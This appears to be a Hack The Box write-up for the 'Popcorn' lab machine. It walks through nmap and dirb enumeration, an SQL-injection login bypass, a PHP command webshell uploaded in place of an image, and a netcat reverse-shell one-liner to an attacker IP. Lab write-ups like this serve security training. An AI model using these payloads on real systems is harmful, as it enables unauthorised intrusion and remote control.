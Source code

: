 First enumeration with nmap 

```
# Nmap 7.93 scan initiated Wed May 17 12:13:10 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80 -Pn 10.10.10.6
Nmap scan report for 10.10.10.6
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 17 12:13:24 2023 -- 1 IP address (1 host up) scanned in 14.03 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/34f2bb05-236d-4107-95e9-4f812e523e1c)

noticed a web server running on port 80, openning it on a browser, got directed to a default web page. let's fuzz for hidden dirs.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Popcorn] 
└─$ dirb http://10.10.10.6/                                                                                                                                            
                                                                                                                                                                       
-----------------                                                                                                                                                      
DIRB v2.22                                                                                                                                                             
By The Dark Raver                                                                                                                                                      
-----------------                                                                                                                                                      
                                                                                                                                                                       
START_TIME: Wed May 17 11:43:45 2023                                                                                                                                   
URL_BASE: http://10.10.10.6/                                                                                                                                           
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                                                                   
                                                                                                                                                                       
-----------------                                                                                                                                                      
                                                                                                                                                                       
GENERATED WORDS: 4612                                                                                                                                                  
                                                                                                                                                                       
---- Scanning URL: http://10.10.10.6/ ----                                                                                                                             
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                                                                                                       
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                                                                                                          
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                                                                                                                     
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                                                                                                                  
+ http://10.10.10.6/test (CODE:200|SIZE:47330)                                                                                                                         
==> DIRECTORY: http://10.10.10.6/torrent/ 

---- Entering directory: http://10.10.10.6/torrent/ ----                                                                                                               
==> DIRECTORY: http://10.10.10.6/torrent/admin/                                                                                                                        
+ http://10.10.10.6/torrent/browse (CODE:200|SIZE:9278)                                                                                                                
+ http://10.10.10.6/torrent/comment (CODE:200|SIZE:936)                                                                                                                
+ http://10.10.10.6/torrent/config (CODE:200|SIZE:0)
```
cool we have a juicy dir `torrent`, let's check it out.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/818c8009-fae9-4ced-8fe2-f57b84f03ab2)

navigating to the torrent dir, got directed to a torrent hoster cms. let's try to login.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2a79dbbc-fc62-46d0-ac5b-75dac33f7cd4)

tried to bypass the login page using sqli payload `admin' or 1=1-- :admin' or 1=1-- `...

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/80fd833d-d2ac-4f51-a0bb-1f2fbc90094c)

Bull's eye it worked, we are in as admin. let's check for how to exploit this service `Torrent Hoster`. there's a file upload vuln let's exploit it.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Popcorn]
└─$ wget https://cdimage.kali.org/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent
--2023-05-18 00:31:47--  https://cdimage.kali.org/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent
Resolving cdimage.kali.org (cdimage.kali.org)... 192.99.200.113
Connecting to cdimage.kali.org (cdimage.kali.org)|192.99.200.113|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://kali.download/base-images/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent [following]
--2023-05-18 00:31:49--  https://kali.download/base-images/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent
Resolving kali.download (kali.download)... 104.18.103.100, 104.18.102.100, 2606:4700::6812:6664, ...
Connecting to kali.download (kali.download)|104.18.103.100|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 296259 (289K) [application/octet-stream]
Saving to: ‘kali-linux-2023.1-installer-amd64.iso.torrent’

kali-linux-2023.1-installer-amd64.iso.tor 100%[====================================================================================>] 289.32K   284KB/s    in 1.0s    

2023-05-18 00:31:51 (284 KB/s) - ‘kali-linux-2023.1-installer-amd64.iso.torrent’ saved [296259/296259]
```
first we download a torrent file from [torrent](https://cdimage.kali.org/kali-2023.1/kali-linux-2023.1-installer-amd64.iso.torrent). 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/160d762d-b62e-4dbd-9976-5603fb77ab5d)

click on the upload button and upload the torrent file you downloaded, after that click the upload torrent button.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9238a81c-d1c1-425e-96fc-dcec1361701a)

after uploading the torrent file, it will show there's no image file found. click on edit this torrent.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a5e1931b-21ed-43b2-9096-c29650a15abe)

upload an image file then intercept with burp.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/30f23cfb-585b-40c4-9d0a-c282809b383d)

delete all that image content, put a payload 

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/842c14a9-30e3-429f-b5ab-f77cc85b10eb)

replace those content with the php cmd webshell payload above, add .php to the image file, and send the request. now let's check the shell in the /upload dir.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/56a5585c-d30f-4a00-904e-614e9d74294b)

cool we got our php shell, let's try it out if we got RCE.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/943da629-c8ec-4dcc-a2fc-8a61f0b50853)

great we got RCE. let's get a reverse shell. fire up ncat listener 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 445 >/tmp/f
```
reverse shell payload.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1b6c65ba-e475-410c-ba69-fd80e3881ae6)

send the payload and check back ncat listener.










